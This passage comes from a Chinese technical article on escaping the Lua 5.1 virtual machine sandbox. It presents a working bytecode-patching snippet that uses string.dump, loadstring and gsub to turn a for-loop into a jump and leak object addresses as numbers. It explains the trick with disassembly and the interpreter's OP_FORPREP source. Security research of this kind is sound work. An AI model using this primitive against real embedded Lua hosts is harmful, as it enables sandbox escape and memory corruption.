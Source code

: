 # LUA脚本虚拟机逃逸技术分析

**Author:boywhp@126.com**

参考[https://gist.github.com/corsix/6575486](https://gist.github.com/corsix/6575486)

0x00 LUA数据泄露
============

* * *

LUA提供了string.dump将一个lua函数dump为LUA字节码，同时loadstring函数加载字节码为LUA函数，通过操作LUA原始字节码可以使得LUA解释器进入特殊状态，甚至导致BUG发生。

```
asnum = loadstring(string.dump(function(x)
  for i = x, x, 0 do
    return i
  end
end):gsub("\96%z%z\128", "\22\0\0\128"))

```

LUA字节码固定长度32bits，4字节，定义如下：

主要由op操作码、R(A)、R(B)、R(C)、R(Bx)、R(sBx)组成。A、B、C对应于LUA寄存器索引。

asnum函数可以将任意LUA对象转换为数字。（注：LUA5.1 64bitLinux环境）gsub函数将字节码`\96%z%z\128`替换为`\22\0\0\128`，如下：

```
0071  60000080           [4] forprep    1   1        ; to [6]
0075  1E010001           [5] return     4   2      
0079  5F40FF7F           [6] forloop    1   -2       ; to [5] if loop

```

执行gsub函数后，forprep指令被替换为JMP to [6]，LUA解释器forprep指令对应代码如下：

```
case OP_FORPREP: {
        const TValue *init = ra;
        const TValue *plimit = ra+1;
        const TValue *pstep = ra+2;
        L->savedpc = pc;  /* next steps may throw errors */
        if (!tonumber(init, ra))
          luaG_runerror(L, LUA_QL("for") " initial value must be a number");
        else if (!tonumber(plimit, ra+1))
          luaG_runerror(L, LUA_QL("for") " limit must be a number");
        else if (!tonumber(pstep, ra+2))
          luaG_runerror(L, LUA_QL("for") " step must be a number");
        setnvalue(ra, luai_numsub(nvalue(ra), nvalue(pstep)));
        dojump(L, pc, GETARG_sBx(i));
        continue;

```

